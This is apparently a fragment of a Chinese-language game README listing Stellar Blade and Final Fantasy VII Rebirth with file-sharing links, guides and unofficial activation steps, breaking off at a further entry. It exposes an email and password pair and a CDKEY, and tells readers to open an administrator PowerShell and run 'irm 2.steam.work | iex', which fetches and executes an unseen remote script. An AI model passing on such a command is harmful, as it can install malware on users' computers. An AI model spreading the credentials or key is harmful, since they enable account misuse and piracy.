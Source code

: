 ```markdown
# 账密
outtaame@gmail.com
what.0414
# 用户名
viskixin
```

#### [V-Latest](https://v.douyin.com/wGDAXYRJ_XY/)  |  [脚本](./详细文件/StellarBlade/shell/pws)

```markdown
# 打开终端
[Win + X] + A
# 从 http://2.steam.work 下载并执行脚本
irm 2.steam.work | iex
# CDKEY
JN4X4-Q8KNV-BZ34F-BR2FO
```

#### 攻略

<a href="攻略文档\StellarBlade.md">剑星</a>

### [最终幻想]

#### # 详情介绍

译名:  最终幻想 7 重生

原作:  [FINAL FANTASY VII REBIRTH](https://store.steampowered.com/app/2909400/FINAL_FANTASY_VII_REBIRTH/)

发行:  [Square Enix](https://store.steampowered.com/publisher/squareenix?snr=1_5_9__2000)

```markdown
# [玩法] → [可玩性]
[动态-3D] → [★待定]

# 文件保存目录
暂无
```

#### [V1.001](https://lzlgo.com/archives/3952)  |  [夸克](https://pan.quark.cn/s/8543f938189d)

#### 攻略

```markdown
暂无
```

### [机械纪元]

#### # 详情介绍
